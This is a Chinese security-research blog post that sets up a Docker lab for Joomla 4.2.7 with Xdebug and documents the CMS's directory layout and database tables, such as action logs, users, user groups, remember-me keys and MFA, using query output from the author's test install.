

# Joomla! 安全技术研究 - 先知社区

Joomla! 安全技术研究

- - -

Joomla 是基于 MVC（Model-View-Controller）架构的内容管理系统。MVC 是一种软件设计范式，用于组织代码以分离内部业务逻辑（模型），用户界面（视图），和用户输入（控制器）  
在 Joomla 的 MVC 架构中：

-   **模型（Model）** 负责数据和业务逻辑，处理数据的存取和转换，通常与数据库的交互也是在模型中进行。
-   **视图（View）** 负责展示数据，生成用户界面。在 Joomla 中，这通常对应于布局文件和模板，用于定义数据如何在页面上显示。
-   **控制器（Controller）** 负责接收用户的输入，调用模型进行数据处理，然后选择一个视图进行显示。控制器是模型和视图之间的桥梁，控制数据流和命令流。

# 0.版本说明

以国外某个不知名网站为例 其中说明了“Custom version for joomla”这表明该版本为定制版本  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706337786578-d0533fcb-055b-4c78-a845-36fde52d440f.png#averageHue=%23e9d884&clientId=u0493d8d7-d661-4&from=paste&height=859&id=cr6lv&originHeight=1718&originWidth=3094&originalType=binary&ratio=2&rotation=0&showTitle=false&size=810621&status=done&style=none&taskId=ub92a9d6e-f3b9-4208-b17d-8b9e7e27289&title=&width=1547)  
使用 fofa 平台进行各版本的资产统计 发现版本搜索与 joomla 资产总数实际相差较大 遂不进行主流版本测绘

# 1.使用研究

> 目前 Joomla-cms 官方最新 release 版本为 5.0.2 \[截至 2024.1.27\]  
> 本研究主要使用 Joomla 提供的官方 docker 镜像进行部署

## 1.1 环境搭建

### 1.1.1 Joomla 4.2.7

Joomla 为 MVC 架构 后续需要进行 debug 为镜像注入 xdebug 并完成相关配置

```plain
FROM joomla:4.2.7-php8.1-apache

# 安装 Xdebug
RUN pecl install xdebug-3.1.2 && docker-php-ext-enable xdebug

# 配置 Xdebug
RUN echo 'xdebug.mode=debug' >> /usr/local/etc/php/conf.d/docker-php-ext-xdebug.ini \
  && echo 'xdebug.start_with_request=yes' >> /usr/local/etc/php/conf.d/docker-php-ext-xdebug.ini \
  && echo 'xdebug.client_host=host.docker.internal' >> /usr/local/etc/php/conf.d/docker-php-ext-xdebug.ini \
  && echo 'xdebug.client_port=9000' >> /usr/local/etc/php/conf.d/docker-php-ext-xdebug.ini
```

```plain
version: "3.9"
services:
  db:
    image: mariadb:10.6.4-focal
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: 123456
      MYSQL_DATABASE: joomla
    volumes:
      - ./database:/var/lib/mysql

  joomla:
    depends_on:
      - db
    build:
      context: .
      dockerfile: Dockerfile
    image: joomla:4.2.7-php8.1-apache
    restart: always
    ports:
      - 18081:80
    environment:
      JOOMLA_DB_HOST: db:3306
      JOOMLA_DB_USER: root
      JOOMLA_DB_PASSWORD: 123456
    volumes:
      - ./html:/var/www/html
```

```plain
->docker-compose build
[+] Building 17.3s (7/7) FINISHED                                                                                                                  docker:orbstack
 => [joomla internal] load .dockerignore                                                                                                                      0.0s
 => => transferring context: 2B                                                                                                                               0.0s
 => [joomla internal] load build definition from Dockerfile                                                                                                   0.0s
 => => transferring dockerfile: 552B                                                                                                                          0.0s
 => [joomla internal] load metadata for docker.io/library/joomla:4.2.7-php8.1-apache                                                                          0.0s
 => [joomla 1/3] FROM docker.io/library/joomla:4.2.7-php8.1-apache                                                                                            0.1s
 => [joomla 2/3] RUN pecl install xdebug-3.1.2 && docker-php-ext-enable xdebug                                                                               16.9s
 => [joomla 3/3] RUN echo 'xdebug.mode=debug' >> /usr/local/etc/php/conf.d/docker-php-ext-xdebug.ini   && echo 'xdebug.start_with_request=yes' >> /usr/local  0.3s
 => [joomla] exporting to image                                                                                                                               0.0s
 => => exporting layers                                                                                                                                       0.0s
 => => writing image sha256:5b1aad886fc98215c4ef0f0f0cb8a4b33db167c4c0dd265937858e69448dc3af                                                                  0.0s
 => => naming to docker.io/library/joomla:4.2.7-php8.1-apache 

->docker-compose up -d
[+] Running 3/3
 ✔ Network joomla_default     Created                                                                                                                         0.1s
 ✔ Container joomla-db-1      Started                                                                                                                         0.0s
 ✔ Container joomla-joomla-1  Started                                                                                                                         0.0s
```

初始化安装过程中值得一提的是发现 Joomla 对用户默认密码进行了复杂性策略要求 避免了弱口令的使用  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706342167150-8f5d1c97-8517-413e-8c33-d9e909e2e613.png#averageHue=%23f3bc41&clientId=u10057a58-2335-4&from=paste&height=696&id=x9val&originHeight=1392&originWidth=1516&originalType=binary&ratio=2&rotation=0&showTitle=false&size=161469&status=done&style=none&taskId=ub7b28e18-5eb0-46af-86fc-565591dd5e2&title=&width=758)  
相比 wordpress 还提供了随机生成的表前缀  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706342290882-8c5a7b2e-ea56-44ab-a9e1-f322ec0fd36c.png#averageHue=%23e2e2e2&clientId=u10057a58-2335-4&from=paste&height=749&id=Vc0dz&originHeight=1498&originWidth=1352&originalType=binary&ratio=2&rotation=0&showTitle=false&size=167344&status=done&style=none&taskId=uc5b000bf-4d82-4ec6-b753-a7ac2438416&title=&width=676)

### 1.1.2 Joomla 目录结构说明

1.  **LICENSE.txt**: 这是 Joomla 的许可证文件，描述了使用 Joomla 所需遵守的条款和条件。
2.  **README.txt**: 通常包含关于 Joomla 安装和配置的基础指南。
3.  **administrator/**: 包含 Joomla 后台管理界面的相关文件。这里存放了控制和管理网站的核心文件。
4.  **api/**: 用于存放与 Joomla 的 API 相关的文件，适用于开发者进行扩展和集成。
5.  **cache/**: Joomla 用这个目录来存放临时缓存文件，可以提高网站性能。
6.  **cli/**: 包含命令行界面脚本，用于执行后台任务。
7.  **components/**: 存放 Joomla 组件文件。组件是 Joomla 扩展中的主要部分，用于实现网站的核心功能。
8.  **configuration.php**: 这是 Joomla 的主配置文件，包含了网站设置信息，如数据库连接等。
9.  **htaccess.txt**: Apache 服务器的配置文件。通常重命名为 **.htaccess** 用于 URL 重写和网站安全设置。
10.  **images/**: 用于存放网站使用的图片文件。
11.  **includes/**: 包含 Joomla 核心的 PHP 库和文件，这些是运行 Joomla 所必需的。
12.  **index.php**: Joomla 网站的主入口文件。
13.  **language/**: 存放语言文件，用于支持多语言网站。
14.  **layouts/**: 包含用于网站布局的文件，如模块和组件的布局文件。
15.  **libraries/**: 包含 Joomla 使用的各种库文件。
16.  **media/**: 用于存储媒体文件，如 CSS、JavaScript 和其他多媒体文件。
17.  **modules/**: 存放 Joomla 模块。模块是用于添加网站如菜单、用户登录等辅助功能的扩展。
18.  **plugins/**: 包含插件文件。插件用于扩展 Joomla 的核心功能。
19.  **robots.txt**: 指导搜索引擎如何索引网站的文件。
20.  **templates/**: 存放 Joomla 模板文件。模板决定了网站的外观和布局。
21.  **tmp/**: 临时文件夹，用于存储上传的文件和临时数据。
22.  **web.config.txt**: 类似于 **.htaccess** 文件，但用于 IIS 服务器。

## 1.2 数据表结构与内容研究

```plain
MariaDB [joomla_db]> show tables;
+-------------------------------+
| Tables_in_joomla_db           |
+-------------------------------+
| e2hw1_action_log_config       |
| e2hw1_action_logs             |
| e2hw1_action_logs_extensions  |
| e2hw1_action_logs_users       |
| e2hw1_assets                  |
| e2hw1_associations            |
| e2hw1_banner_clients          |
| e2hw1_banner_tracks           |
| e2hw1_banners                 |
| e2hw1_categories              |
| e2hw1_contact_details         |
| e2hw1_content                 |
| e2hw1_content_frontpage       |
| e2hw1_content_rating          |
| e2hw1_content_types           |
| e2hw1_contentitem_tag_map     |
| e2hw1_extensions              |
| e2hw1_fields                  |
| e2hw1_fields_categories       |
| e2hw1_fields_groups           |
| e2hw1_fields_values           |
| e2hw1_finder_filters          |
| e2hw1_finder_links            |
| e2hw1_finder_links_terms      |
| e2hw1_finder_logging          |
| e2hw1_finder_taxonomy         |
| e2hw1_finder_taxonomy_map     |
| e2hw1_finder_terms            |
| e2hw1_finder_terms_common     |
| e2hw1_finder_tokens           |
| e2hw1_finder_tokens_aggregate |
| e2hw1_finder_types            |
| e2hw1_history                 |
| e2hw1_languages               |
| e2hw1_mail_templates          |
| e2hw1_menu                    |
| e2hw1_menu_types              |
| e2hw1_messages                |
| e2hw1_messages_cfg            |
| e2hw1_modules                 |
| e2hw1_modules_menu            |
| e2hw1_newsfeeds               |
| e2hw1_overrider               |
| e2hw1_postinstall_messages    |
| e2hw1_privacy_consents        |
| e2hw1_privacy_requests        |
| e2hw1_redirect_links          |
| e2hw1_scheduler_tasks         |
| e2hw1_schemas                 |
| e2hw1_session                 |
| e2hw1_tags                    |
| e2hw1_template_overrides      |
| e2hw1_template_styles         |
| e2hw1_ucm_base                |
| e2hw1_ucm_content             |
| e2hw1_update_sites            |
| e2hw1_update_sites_extensions |
| e2hw1_updates                 |
| e2hw1_user_keys               |
| e2hw1_user_mfa                |
| e2hw1_user_notes              |
| e2hw1_user_profiles           |
| e2hw1_user_usergroup_map      |
| e2hw1_usergroups              |
| e2hw1_users                   |
| e2hw1_viewlevels              |
| e2hw1_webauthn_credentials    |
| e2hw1_workflow_associations   |
| e2hw1_workflow_stages         |
| e2hw1_workflow_transitions    |
| e2hw1_workflows               |
+-------------------------------+
71 rows in set (0.002 sec)
```

表前缀 e2hw1\_为随机生成 在下文的表结构研究时将忽略

### 1.2.1 行为日志相关 \[**action\_**\]

**action\_log\_config, action\_logs, action\_logs\_extensions, action\_logs\_users**  
这些数据表用于记录用户在后台的操作日志

#### action\_log\_config 表结构

```plain
MariaDB [joomla_db]> desc action_log_config;
+--------------+------------------+------+-----+---------+----------------+
| Field        | Type             | Null | Key | Default | Extra          |
+--------------+------------------+------+-----+---------+----------------+
| id           | int(10) unsigned | NO   | PRI | NULL    | auto_increment |
| type_title   | varchar(255)     | NO   |     |         |                |
| type_alias   | varchar(255)     | NO   |     |         |                |
| id_holder    | varchar(255)     | YES  |     | NULL    |                |
| title_holder | varchar(255)     | YES  |     | NULL    |                |
| table_name   | varchar(255)     | YES  |     | NULL    |                |
| text_prefix  | varchar(255)     | YES  |     | NULL    |                |
+--------------+------------------+------+-----+---------+----------------+
7 rows in set (0.009 sec)
```

#### 数据内容研究

```plain
MariaDB [joomla_db]> select * from action_log_config;
+----+--------------------+-------------------------+--------------+--------------+--------------------+----------------------+
| id | type_title         | type_alias              | id_holder    | title_holder | table_name         | text_prefix          |
+----+--------------------+-------------------------+--------------+--------------+--------------------+----------------------+
|  1 | article            | com_content.article     | id           | title        | #__content         | PLG_ACTIONLOG_JOOMLA |
|  2 | article            | com_content.form        | id           | title        | #__content         | PLG_ACTIONLOG_JOOMLA |
|  3 | banner             | com_banners.banner      | id           | name         | #__banners         | PLG_ACTIONLOG_JOOMLA |
|  4 | user_note          | com_users.note          | id           | subject      | #__user_notes      | PLG_ACTIONLOG_JOOMLA |
|  5 | media              | com_media.file          |              | name         |                    | PLG_ACTIONLOG_JOOMLA |
|  6 | category           | com_categories.category | id           | title        | #__categories      | PLG_ACTIONLOG_JOOMLA |
|  7 | menu               | com_menus.menu          | id           | title        | #__menu_types      | PLG_ACTIONLOG_JOOMLA |
|  8 | menu_item          | com_menus.item          | id           | title        | #__menu            | PLG_ACTIONLOG_JOOMLA |
|  9 | newsfeed           | com_newsfeeds.newsfeed  | id           | name         | #__newsfeeds       | PLG_ACTIONLOG_JOOMLA |
| 10 | link               | com_redirect.link       | id           | old_url      | #__redirect_links  | PLG_ACTIONLOG_JOOMLA |
| 11 | tag                | com_tags.tag            | id           | title        | #__tags            | PLG_ACTIONLOG_JOOMLA |
| 12 | style              | com_templates.style     | id           | title        | #__template_styles | PLG_ACTIONLOG_JOOMLA |
| 13 | plugin             | com_plugins.plugin      | extension_id | name         | #__extensions      | PLG_ACTIONLOG_JOOMLA |
| 14 | component_config   | com_config.component    | extension_id | name         |                    | PLG_ACTIONLOG_JOOMLA |
| 15 | contact            | com_contact.contact     | id           | name         | #__contact_details | PLG_ACTIONLOG_JOOMLA |
| 16 | module             | com_modules.module      | id           | title        | #__modules         | PLG_ACTIONLOG_JOOMLA |
| 17 | access_level       | com_users.level         | id           | title        | #__viewlevels      | PLG_ACTIONLOG_JOOMLA |
| 18 | banner_client      | com_banners.client      | id           | name         | #__banner_clients  | PLG_ACTIONLOG_JOOMLA |
| 19 | application_config | com_config.application  |              | name         |                    | PLG_ACTIONLOG_JOOMLA |
| 20 | task               | com_scheduler.task      | id           | title        | #__scheduler_tasks | PLG_ACTIONLOG_JOOMLA |
+----+--------------------+-------------------------+--------------+--------------+--------------------+----------------------+
20 rows in set (0.004 sec)

id:自增 ID
type_title:行为类型的标题，用于描述行为的一般类别，例如 "article"、"banner"、"user_note" 等。
type_alias:行为的技术别名，通常以 com_ 开头，表示 Joomla 组件（如 "com_content.article" 表示文章内容组件的文章），用于内部识别。
id_holder:表示记录特定行为的数据库表中的 ID 列名。例如，在文章内容表（#__content）中，ID 列被命名为 "id"。
title_holder:表示记录行为相关信息的列名，通常是该行为的标题或名称。如在文章内容表中，文章标题列被命名为 "title"。
table_name 与行为相关的数据库表名。Joomla 使用前缀替换来适应不同的数据库前缀，例如 #__content 代表实际的内容表。
text_prefix:于国际化的文本前缀，通常指向语言文件中的特定字符串。在这个例子中，所有行为都使用 "PLG_ACTIONLOG_JOOMLA" 作为前缀。
```

#### action\_logs 表结构

```plain
MariaDB [joomla_db]> desc action_logs;
+----------------------+------------------+------+-----+---------+----------------+
| Field                | Type             | Null | Key | Default | Extra          |
+----------------------+------------------+------+-----+---------+----------------+
| id                   | int(10) unsigned | NO   | PRI | NULL    | auto_increment |
| message_language_key | varchar(255)     | NO   |     |         |                |
| message              | text             | NO   |     | NULL    |                |
| log_date             | datetime         | NO   |     | NULL    |                |
| extension            | varchar(50)      | NO   | MUL |         |                |
| user_id              | int(11)          | NO   | MUL | 0       |                |
| item_id              | int(11)          | NO   |     | 0       |                |
| ip_address           | varchar(40)      | NO   |     | 0.0.0.0 |                |
+----------------------+------------------+------+-----+---------+----------------+
8 rows in set (0.001 sec)
```

#### 数据内容研究

```plain
MariaDB [joomla_db]> select * from action_logs\G;
*************************** 1. row ***************************
                  id: 1
message_language_key: PLG_ACTIONLOG_JOOMLA_USER_LOGGED_IN
             message: {"action":"login","userid":867,"username":"may","accountlink":"index.php?option=com_users&task=user.edit&id=867","app":"PLG_ACTIONLOG_JOOMLA_APPLICATION_SITE"}
            log_date: 2024-01-27 07:58:57
           extension: com_users
             user_id: 867
             item_id: 0
          ip_address: COM_ACTIONLOGS_DISABLED
1 row in set (0.014 sec)

ERROR: No query specified

id: 这是日志条目的唯一标识符。在这个例子中，它的值是 1，意味着这是第一个记录的行为。
message_language_key: 这是用于国际化的消息键。在这个例子中，它的值是 PLG_ACTIONLOG_JOOMLA_USER_LOGGED_IN，表示这条记录是关于用户登录的。
message: 这是一个 JSON 格式的字符串，包含了行为的具体信息。在这个例子中，它记录了以下信息：
action: 行为类型，在这里是 login。
userid: 执行行为的用户 ID，此例中为 867。
username: 用户名，此例中为 may。
accountlink: 指向用户账户编辑页面的链接。
app: 应用程序上下文，此例中是网站应用（PLG_ACTIONLOG_JOOMLA_APPLICATION_SITE）。
log_date: 记录日志的日期和时间。在这个例子中，行为发生在 2024-01-27 07:58:57。
extension: 涉及到的 Joomla 扩展名。在这里，它是 com_users，表明这与用户组件有关。
user_id: 执行行为的用户的 ID。与 message 字段中的 userid 相同，此例中也是 867。
item_id: 通常是与行为相关的项的 ID。在这个例子中，它的值是 0，可能表示这个特定的行为（登录）没有与特定项直接关联。
ip_address: 记录执行行为的用户的 IP 地址。在这个例子中，值是 COM_ACTIONLOGS_DISABLED，表示 IP 地址的记录被禁用了。
```

这条记录具体表示用户 **may**（用户 ID 867）在 **2024-01-27 07:58:57** 通过网站应用成功登录了系统。通过这样的日志记录，网站管理员可以追踪用户的活动，对网站的使用情况有更好的了解。

#### action\_logs\_extensions 表结构

```plain
MariaDB [joomla_db]> desc action_logs_extensions;
+-----------+------------------+------+-----+---------+----------------+
| Field     | Type             | Null | Key | Default | Extra          |
+-----------+------------------+------+-----+---------+----------------+
| id        | int(10) unsigned | NO   | PRI | NULL    | auto_increment |
| extension | varchar(255)     | NO   |     |         |                |
+-----------+------------------+------+-----+---------+----------------+
2 rows in set (0.015 sec)
```

#### 数据内容研究

```plain
MariaDB [joomla_db]> select * from action_logs_extensions;
+----+----------------+
| id | extension      |
+----+----------------+
|  1 | com_banners    |
|  2 | com_cache      |
|  3 | com_categories |
|  4 | com_config     |
|  5 | com_contact    |
|  6 | com_content    |
|  7 | com_installer  |
|  8 | com_media      |
|  9 | com_menus      |
| 10 | com_messages   |
| 11 | com_modules    |
| 12 | com_newsfeeds  |
| 13 | com_plugins    |
| 14 | com_redirect   |
| 15 | com_tags       |
| 16 | com_templates  |
| 17 | com_users      |
| 18 | com_checkin    |
| 19 | com_scheduler  |
+----+----------------+
```

这个表只记录了插件名称 似乎并没有插件对应的日志

#### action\_logs\_users 表结构

```plain
MariaDB [joomla_db]> desc action_logs_users;
+------------+---------------------+------+-----+---------+-------+
| Field      | Type                | Null | Key | Default | Extra |
+------------+---------------------+------+-----+---------+-------+
| user_id    | int(10) unsigned    | NO   | PRI | NULL    |       |
| notify     | tinyint(3) unsigned | NO   | MUL | NULL    |       |
| extensions | text                | NO   |     | NULL    |       |
+------------+---------------------+------+-----+---------+-------+
3 rows in set (0.013 sec)
```

#### 数据内容研究

```plain
MariaDB [joomla_db]> select * from action_logs_users;
Empty set (0.007 sec)
```

还没有进行相对应的操作 没有记录到日志

### 1.2.2 用户和权限 \[user\*\]

#### users 表结构

**users**表用于存储用户账户信息。

```plain
MariaDB [joomla_db]> desc users;
+---------------+---------------+------+-----+---------+----------------+
| Field         | Type          | Null | Key | Default | Extra          |
+---------------+---------------+------+-----+---------+----------------+
| id            | int(11)       | NO   | PRI | NULL    | auto_increment |
| name          | varchar(400)  | NO   | MUL |         |                |
| username      | varchar(150)  | NO   | UNI |         |                |
| email         | varchar(100)  | NO   | MUL |         |                |
| password      | varchar(100)  | NO   |     |         |                |
| block         | tinyint(4)    | NO   | MUL | 0       |                |
| sendEmail     | tinyint(4)    | YES  |     | 0       |                |
| registerDate  | datetime      | NO   |     | NULL    |                |
| lastvisitDate | datetime      | YES  |     | NULL    |                |
| activation    | varchar(100)  | NO   |     |         |                |
| params        | text          | NO   |     | NULL    |                |
| lastResetTime | datetime      | YES  |     | NULL    |                |
| resetCount    | int(11)       | NO   |     | 0       |                |
| otpKey        | varchar(1000) | NO   |     |         |                |
| otep          | varchar(1000) | NO   |     |         |                |
| requireReset  | tinyint(4)    | NO   |     | 0       |                |
| authProvider  | varchar(100)  | NO   |     |         |                |
+---------------+---------------+------+-----+---------+----------------+
17 rows in set (0.007 sec)
```

#### 数据内容研究

```plain
MariaDB [joomla_db]> select * from e2hw1_users\G;
*************************** 1. row ***************************
           id: 867
         name: may
     username: may
        email: 3045056465@qq.com
     password: $2y$10$vMTE5lmyqZuONKEk61Ehn.FFu3hUDFA0f4XqEWI59GSvPEAe/RupO
        block: 0
    sendEmail: 1
 registerDate: 2024-01-27 07:58:41
lastvisitDate: 2024-01-27 07:58:57
   activation: 0
       params:
lastResetTime: NULL
   resetCount: 0
       otpKey:
         otep:
 requireReset: 0
 authProvider:
1 row in set (0.001 sec)

id: 用户的唯一标识符。
name: 用户的真实姓名或全名。
username: 用户的登录名。
email: 用户的电子邮箱地址。
password: 用户的密码，存储为加密形式。
block: 表示用户是否被禁用。0 表示未被禁用，1 表示被禁用。
sendEmail: 标识用户是否接收邮件通知。1 表示接收，0 表示不接收。
registerDate: 用户注册日期和时间。
lastvisitDate: 用户最后一次访问网站的日期和时间。
activation: 用户账户的激活状态。通常用于新用户注册时的电子邮件激活。
params: 存储用户的其他参数或配置信息。
lastResetTime: 上次密码重置的时间。
resetCount: 密码重置次数。
otpKey: 用于双因素认证的密钥。
otep: 一次性使用的双因素认证密码。
requireReset: 表示是否要求用户在下次登录时重置密码。
authProvider: 认证提供者信息。
```

#### usergoups 表结构

**usergroups**表用于存储用户组信息。

```plain
MariaDB [joomla_db]> desc usergroups;
+-----------+------------------+------+-----+---------+----------------+
| Field     | Type             | Null | Key | Default | Extra          |
+-----------+------------------+------+-----+---------+----------------+
| id        | int(10) unsigned | NO   | PRI | NULL    | auto_increment |
| parent_id | int(10) unsigned | NO   | MUL | 0       |                |
| lft       | int(11)          | NO   | MUL | 0       |                |
| rgt       | int(11)          | NO   |     | 0       |                |
| title     | varchar(100)     | NO   | MUL |         |                |
+-----------+------------------+------+-----+---------+----------------+
5 rows in set (0.019 sec)
```

#### 数据内容研究

```plain
MariaDB [joomla_db]> select * from e2hw1_usergroups;
+----+-----------+-----+-----+---------------+
| id | parent_id | lft | rgt | title         |
+----+-----------+-----+-----+---------------+
|  1 |         0 |   1 |  18 | Public        |
|  2 |         1 |   8 |  15 | Registered    |
|  3 |         2 |   9 |  14 | Author        |
|  4 |         3 |  10 |  13 | Editor        |
|  5 |         4 |  11 |  12 | Publisher     |
|  6 |         1 |   4 |   7 | Manager       |
|  7 |         6 |   5 |   6 | Administrator |
|  8 |         1 |  16 |  17 | Super Users   |
|  9 |         1 |   2 |   3 | Guest         |
+----+-----------+-----+-----+---------------+
9 rows in set (0.006 sec)

lft 和 rgt: 这两个字段用于存储用户组在树形结构中的位置。
Joomla 使用嵌套集模型来管理层级数据。
lft 和 rgt 值用于确定用户组在树中的位置，这有助于快速查询和更新层级结构。
```

Joomla 使用嵌套集模型（即通过`lft`和`rgt`字段定义的树状数据结构）来进行用户组管理、菜单结构组织、内容分类、访问控制列表（ACL），这使得 Joomla 能够有效的管理和呈现复杂的层级关系，同时提供高效的查询性能。

#### user\_usergroup\_map 表结构

```plain
MariaDB [joomla_db]> desc user_usergroup_map;
+----------+------------------+------+-----+---------+-------+
| Field    | Type             | Null | Key | Default | Extra |
+----------+------------------+------+-----+---------+-------+
| user_id  | int(10) unsigned | NO   | PRI | 0       |       |
| group_id | int(10) unsigned | NO   | PRI | 0       |       |
+----------+------------------+------+-----+---------+-------+
2 rows in set (0.011 sec)
```

**user\_usergroup\_map**表用于映射用户与用户组关系

#### 数据内容研究

```plain
MariaDB [joomla_db]> select * from user_usergroup_map;
+---------+----------+
| user_id | group_id |
+---------+----------+
|     867 |        8 |
+---------+----------+
1 row in set (0.002 sec)
```

这表示用户 user\_id:867(may) 属于组 group\_id:8(Super Users)

#### user\_profiles 表结构

**user\_profiles**表用于存储用户自定义配置文件信息

```plain
MariaDB [joomla_db]> desc user_profiles;
+---------------+--------------+------+-----+---------+-------+
| Field         | Type         | Null | Key | Default | Extra |
+---------------+--------------+------+-----+---------+-------+
| user_id       | int(11)      | NO   | PRI | NULL    |       |
| profile_key   | varchar(100) | NO   | PRI | NULL    |       |
| profile_value | text         | NO   |     | NULL    |       |
| ordering      | int(11)      | NO   |     | 0       |       |
+---------------+--------------+------+-----+---------+-------+
4 rows in set (0.007 sec)
```

#### 数据内容研究

未产生数据

#### user\_keys 表结构

user\_keys 表用于存储用户密钥信息

```plain
MariaDB [joomla_db]> desc user_keys;
+----------+------------------+------+-----+---------+----------------+
| Field    | Type             | Null | Key | Default | Extra          |
+----------+------------------+------+-----+---------+----------------+
| id       | int(10) unsigned | NO   | PRI | NULL    | auto_increment |
| user_id  | varchar(150)     | NO   | MUL | NULL    |                |
| token    | varchar(255)     | NO   |     | NULL    |                |
| series   | varchar(191)     | NO   | UNI | NULL    |                |
| time     | varchar(200)     | NO   |     | NULL    |                |
| uastring | varchar(255)     | NO   |     | NULL    |                |
+----------+------------------+------+-----+---------+----------------+
6 rows in set (0.005 sec)
```

#### 数据内容研究

```plain
MariaDB [joomla_db]> select * from user_keys\G;
*************************** 1. row ***************************
      id: 1
 user_id: may
   token: $2y$10$5oLK0A9Qes8AuyW12HNu/eldw947x8OEU/a2.1MbLU4iM4RA3iUcS
  series: eW5yDmlZI36hB4rlmT9n
    time: 1711613771
uastring: joomla_remember_me_e87e793cb8ef94820a44b826528c6f62
1 row in set (0.001 sec)

id: 这是该条记录的唯一标识符。
user_id: 这个字段存储用户的 ID 或用户名。在您的示例中，它是“may”。
token: 登录令牌，这是一个加密的字符串，用于自动登录功能。当用户选择“记住我”选项时，这个令牌被创建并存储在用户的设备上。
series: 这是一个用于识别令牌系列的字符串。如果令牌被盗用，Joomla 会检测到系列中的异常行为。
time: 这个字段存储令牌的创建时间或最后使用时间的时间戳。
uastring: 用户代理字符串，用于存储生成令牌时用户浏览器的识别信息。这有助于增加安全性，确保令牌只能在原始浏览器中使用。
```

#### user\_mfa 表结构

user\_mfa 表用于存储多因素认证信息

```plain
MariaDB [joomla_db]> desc e2hw1_user_mfa;
+------------+------------------+------+-----+---------+----------------+
| Field      | Type             | Null | Key | Default | Extra          |
+------------+------------------+------+-----+---------+----------------+
| id         | int(11)          | NO   | PRI | NULL    | auto_increment |
| user_id    | int(10) unsigned | NO   | MUL | NULL    |                |
| title      | varchar(255)     | NO   |     |         |                |
| method     | varchar(100)     | NO   |     | NULL    |                |
| default    | tinyint(4)       | NO   |     | 0       |                |
| options    | mediumtext       | NO   |     | NULL    |                |
| created_on | datetime         | NO   |     | NULL    |                |
| last_used  | datetime         | YES  |     | NULL    |                |
+------------+------------------+------+-----+---------+----------------+
8 rows in set (0.009 sec)
```

#### 数据内容研究

MFA（Multi-Factor Authentication）是一种多因素认证技术，它通常涉及一下三种认证技术

1.  **知识因素（Something You Know）**：这是最常见的认证因素，例如密码、PIN 码或者安全问题的答案。
2.  **拥有因素（Something You Have）**：这涉及到用户必须拥有的物理设备或物品，如手机、安全令牌器、智能卡等。
3.  **生物因素（Something You Are）**：这包括生物识别方法，如指纹扫描、面部识别、视网膜扫描或声纹识别等。
4.  **user\_notes**: 存储关于用户的笔记。
5.  **viewlevels**: 存储访问级别信息。
6.  **assets**: 存储内容项的权限设置信息。

多因素认证在 Joomla 中以插件的方式存在 默认未启用 需要在后台启用插件才可以使用  
在 Joomla 中有四种 MFA 认证方式，兼并了软硬件方式  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706432455969-4fa453bf-25a3-4034-ad41-8fff01aedf70.png#averageHue=%238fe74a&clientId=u0a884ef0-f6c7-4&from=paste&height=739&id=tD9il&originHeight=1478&originWidth=2354&originalType=binary&ratio=2&rotation=0&showTitle=false&size=199869&status=done&style=none&taskId=u940a438d-1d14-4f34-b539-a31b4428267&title=&width=1177)  
以第一种动态验证码的方式为例，访问进入得到一个 QR 码  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706432723980-6be0958f-c9e1-4181-9200-62895503b947.png#averageHue=%23dddddd&clientId=u0a884ef0-f6c7-4&from=paste&height=608&id=ZpvEE&originHeight=1216&originWidth=2344&originalType=binary&ratio=2&rotation=0&showTitle=false&size=263122&status=done&style=none&taskId=uc7d63242-46dc-4db9-9aa0-59442abfc3f&title=&width=1172)  
扫码后得到 otpauth://totp/may@localhost?secret=TVMB5TENN3DCV6K7  
otpatuh 是一种应用层协议，用于生成和验证一次性密码  
通过浏览器访问打开了系统设置，设置好对应网站 IP 等信息后会得到动态验证码  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706432692447-010451ab-60e0-4350-84b6-02371a20de37.png#averageHue=%23dcdcdc&clientId=u0a884ef0-f6c7-4&from=paste&height=733&id=k6g1V&originHeight=1466&originWidth=1012&originalType=binary&ratio=2&rotation=0&showTitle=false&size=128547&status=done&style=none&taskId=ua8c4587c-d805-4dd3-9abe-80bc687ac1f&title=&width=506)  
后续进行敏感操作（如管理员用户登录）就会需要输入动态验证码  
